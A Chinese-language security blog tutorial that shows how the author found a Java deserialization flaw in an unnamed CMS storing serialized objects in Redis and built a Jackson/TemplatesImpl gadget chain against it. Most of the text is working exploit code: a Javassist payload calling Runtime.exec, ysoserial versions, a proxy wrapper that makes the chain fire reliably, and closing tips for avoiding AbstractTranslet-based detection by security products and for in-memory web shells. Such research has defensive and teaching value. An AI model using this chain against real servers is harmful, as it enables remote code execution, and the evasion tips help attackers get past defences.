









# 奇安信攻防社区-新手向某CMS的Java反序列链学习

### 新手向某CMS的Java反序列链学习

Github上偶然发现某系统存在Java反序列化漏洞，在编写反序列化链的过程中踩了一些坑，并且这个漏洞最终的触发方式也比较特殊，本文分享一下此过程以及如何利用ysoserial工具完成Java反序列化链payload的编写，初学者通过本文也可以了解一下Java反序列化链的原理。

## 0x00 前言

Github上偶然发现某系统存在Java反序列化漏洞，在编写反序列化链的过程中踩了一些坑，并且这个漏洞最终的触发方式也比较特殊，本文分享一下此过程以及如何利用ysoserial工具完成Java反序列化链payload的编写，初学者通过本文也可以了解一下Java反序列化链的原理。

## 0x01 发现

该系统使用了redis缓存并且存储的是序列化数据，查看redis数据库中的value值是以`\xac\xed`开头的（Java序列化数据）：


跟进系统代码发现在后续获取redis存储数据过程中需要进行反序列化操作（触发点），这里通过`jedis#get`方法获取key的value值，然后交给`valueSerializer#deserialize`方法进行反序列化处理：



我们跟进该方法，可以发现将获取的字节数组转换为对象流，然后调用了`readObject()`方法完成反序列化操作：



我们将编写的Java反序列化链写入redis数据库，通过访问网站成功触发反序列化漏洞：



下面重点讲一下这条反序列化链，以及如何利用ysoserial工具来简化代码。

## 0x02 链子

查看该系统使用的依赖为 Jackson+SpringBoot（Jackson是一套适合java的数据处理工具，用于json格式数据的解析与生成，支持多种类型，默认集成在SpringBoot中）：



所以参照之前的反序列化漏洞可构造的反序列化链如下：

```php
BadAttributeValueExpException -> POJOnode(getter) -> TemplatesImpl
```

下面介绍反序列化链中的几个关键地方。

1、 `readObject()` 入口

`BadAttributeValueExpException#readObject`

我们都知道Java反序列化是将字节序列为转换为Java对象的过程，`ObjectInputStream#readObject` 方法用于反序列化（相当于php中的那些魔术方法）；



2、寻找`readObject()`方法中被调用的方法

发现该方法里调用了`toString()`方法，问题：这里为什么我们会选择POJONode类的`toString()`方法用来调用getter？

我们发现POJONode类中并不存在`toString()`方法，但是在它的父类BaseJsonNode中重写了`toString()`方法：



跟进方法看下，发现依次调用了以下方法：

```java
toString -> InternalNodeMapper#nodeToString -> ObjectWriter#writeValueAsString
```

这里穿插一个Jackson的知识点：在Jackson中将对象序列化成json字符串方法为`ObjectMapper#writeValueAsString`，我们测试一下该方法，发现该方法不仅能完成对象转化还会默认调用get方法：



所以我们就找到了getter方法的入口（用来接templateimpl的链子），这里我们还可以得出只要是继承了BaseJsonNode类，并且没有重写`toString()`方法（即需要执行父类的`toString()`方法），就能够替代POJONode这个类。

3、EXP

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class test {
    public static void main(String[] args) throws Exception {
        // 1、使用了Javassist构建templates的_bytecodes属性
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("evil");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        // 2、创建TemplatesImpl类利用反射获取私有属性并设置
        Templates templatesImpl = new TemplatesImpl();
        Field bytecodes = templatesImpl.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templatesImpl,new byte[][]{bytes});
        Field name = templatesImpl.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templatesImpl,"111");
        Field tfactory = templatesImpl.getClass().getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templatesImpl,null);
        POJONode jsonNodes = new POJONode(templatesImpl);
        // 3、BadAttributeValueExpException提供readObject入口
        BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
        Field val = exp.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        // 4、序列化
        serial(exp);
    }
    // serial_method
    public static byte[] serial(Object o) throws IOException{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();
        return baos.toByteArray();
    }
}
```

4、使用ysoserial重写上面的代码

> 在ysoserial中作者已经封装了一些方法，方便我们直接调用

```java
// Gadgets#createTemplatesImpl方法创建TemplatesImpl类，在ysoserial中该方法已经封装了上面代码的1、2步，这里我们传入正确的参数后直接调用即可
final TemplatesImpl templatesImpl = Gadgets.createTemplatesImpl(command,TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
POJONode jsonNodes = new POJONode(templatesImpl);
// 上面代码的第3步
BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
Field val = exp.getClass().getDeclaredField("val");
val.setAccessible(true);
val.set(exp,jsonNodes);
// 序列化，可以直接调用PayloadRunner#run方法
PayloadRunner.run(test.class, args);
```

## 0x03 踩坑

1、序列化过程中报错



原因：在`ObjectOuptputStream#writeObject0`方法中，如果序列化的类实现了`writeReplace()`方法，将会在序列化过程中调用它进行检查抛出异常中止序列化，我们发现在BaseJsonNode类中实现了这个方法；

解决：序列化时只要不经过 `BaseJsonNode#writeReplace`方法就行（我们可以重写该方法或在父类中删除该方法）

2、反序列化过程中报错



原因：反射 `getDeclaredMethods` 获取到方法的顺序是不确定的，最终导致执行相关getter方法的顺序也是不确定的，造成反序列化链不稳定；当 TemplatesImpl类的 `getStylesheetDOM()` 方法先于 `getOutputProperties()` 方法执行时就会导致空指针异常从而导致调用链报错中断，导致exp利用失败。

解决：利用 JdkDynamicAopProxy类进行封装使链子稳定触发，这里参考文章：[关于java反序列化中jackson链子不稳定问题](https://pankas.top/2023/10/04/%E5%85%B3%E4%BA%8Ejava%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%ADjackson%E9%93%BE%E5%AD%90%E4%B8%8D%E7%A8%B3%E5%AE%9A%E9%97%AE%E9%A2%98/)：

```java
Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
cons.setAccessible(true);
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(templatesImpl);
InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
POJONode jsonNodes = new POJONode(proxyObj);
```

在ysoserial中也提供了一个代理封装的方法：`Gadgets#createProxy`，下面给出利用ysoserial构造后的完整代码：

```java
public class test implements ObjectPayload<Object> {
    public Object getObject(String command) throws Exception {
        final TemplatesImpl templatesImpl = Gadgets.createTemplatesImpl(command,TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(templatesImpl);
        final Object proxyObj = Gadgets.createProxy(
            (InvocationHandler) Reflections.getFirstCtor("org.springframework.aop.framework.JdkDynamicAopProxy").newInstance(as),Templates.class);
        POJONode jsonNodes = new POJONode(proxyObj);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
        Field val = exp.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        return exp;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(Jackson1.class, args);
    }
}
```

## 0x04 结尾

此次过程中还发现了一个Tips，具体分析可参考：[https://ispacesoft.com/161752.html](https://ispacesoft.com/161752.html)

问题：ysoserial中使用了Javassist来构建templates的\_bytecodes属性时，需要继承AbstractTranslet类才能利用，移除继承后无法利用。

1.  在websocket内存马中，变成了抽象类`javax.xml.ws.Endpoint`，但是由于java不允许多继承，继承了AbstractTranslet类后，就无法再继承Endpoint类了；
2.  部分安全产品对AbstractTranslet关键字也有检测。

解决：满足两个条件即可实现去除继承AbstractTranslet类：

1.  参数 `classCount` 数量大于1，即生成类的数量大于1；
2.  参数 `_transletIndex` 大于等于0，该属性为指定为恶意类的索引，默认为-1。

```java
//原写法
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {classBytes});
//修改后
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
classBytes, ClassFiles.classAsBytes(Foo.class)
});
//添加_transletIndex字段
Reflections.setFieldValue(templates, "_transletIndex", 0);
Reflections.setFieldValue(templates, "_name", "Pwnr");
Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
```
